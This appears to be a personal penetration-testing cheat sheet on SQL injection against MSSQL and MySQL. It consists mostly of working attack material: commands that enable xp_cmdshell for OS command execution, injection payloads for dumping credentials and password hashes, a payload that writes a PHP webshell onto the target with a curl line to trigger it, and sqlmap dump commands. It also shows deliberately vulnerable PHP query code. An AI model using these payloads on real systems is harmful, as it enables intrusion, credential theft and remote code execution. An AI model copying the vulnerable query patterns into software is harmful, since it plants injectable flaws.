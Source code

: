 # SQLi

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines
```

### Attacks

Function `xp_cmdshell` needs to be activated:
- usage: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
- enabling: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15

Example:
```
kali$ impacket-mssqlclient Administrator:thelocaladminpass@$IpTarget -windows-auth
SQL> execute sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> execute sp_configure 'xp_cmdshell'
SQL> reconfigure;
SQL> execute xp_cmdshell 'whoami';
```

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
%' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '%' union select database(), user(), @@version, null, null -- //'";
SELECT * from customers WHERE name LIKE '' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
The `order by` injection retrieves the table size.

#### Blind injections

Boolean-based, the fake user query gives an empty output:
```
http://$TargetIp/blindsqli.php?user=trueuser' AND 1=1 -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND 1=1 -- //
```

Time-based, the fake user response is immediate (time consuming):
```
http://$TargetIp/blindsqli.php?user=trueuser' AND IF (1=1, sleep(3),'false') -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND IF (1=1, sleep(3),'false') -- //
```

#### Php injection

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
```

## Sqlmap

https://sqlmap.org/
 
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump
```


